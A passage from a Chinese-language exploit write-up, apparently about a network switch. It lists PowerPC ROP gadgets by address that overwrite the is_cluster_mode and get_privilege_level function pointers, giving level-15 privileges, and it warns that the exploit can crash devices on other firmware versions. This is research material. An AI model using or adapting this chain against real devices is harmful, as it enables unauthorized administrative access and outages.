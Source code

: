 将is_cluster_mode函数指针加载到r30中，然后加载将该指针覆盖为r31的值。用于覆盖的值是一个始终返回1的函数的地址： 

[![](./img/85869/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0101a6e2e69cca48da.png)



```
0x00dffbe8: 
    stw r31, 0x34(r30)
    lwz r0, 0x14(r1)
    mtlr r0
    lmw r30, 8(r1)
    addi r1, r1, 0x10
    blr
```

完成实际的写操作。



```
0x0006788c: 
    lwz r9, 8(r1)
    lwz r3, 0x2c(r9)
    lwz r0, 0x14(r1)
    mtlr r0
    addi r1, r1, 0x10
    blr
0x006ba128: 
    lwz r31, 8(r1)
    lwz r30, 0xc(r1)
    addi r1, r1, 0x10
    lwz r0, 4(r1)
    mtlr r0
    blr
```

上面两个零件会把get_privilege_level函数的指针加载到r3中，同时加载一个将该其覆盖为r31的值。目标值是一个返回15的函数的地址： 

[![](./img/85869/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0137111a2dbd2e0126.png)



```
0x0148e560: 
    stw r31, 0(r3)
    lwz r0, 0x14(r1)
    mtlr r0
    lwz r31, 0xc(r1)
    addi r1, r1, 0x10
    blr
```

这个Epilog完成最终的写操作并返回到合法的执行流程。当然，应该对堆栈结构进行相应的格式化，以便使这个rop链可以正常工作。为了了解能够使该rop链按预期运行的实际堆栈布局，可以参考漏洞利用源码。

<br>

**运行漏洞利用代码**

忙活一天之后，我终于搞定了一个工具，可以用来给一些重要函数指针打补丁的工具，这些函数之所以重要，是因为它们是处理连接和权限的。请注意，漏洞利用代码严重依赖于交换机上所使用的固件版本。对某些不同的固件版本来说，这里的漏洞利用代码很可能会导致设备崩溃。

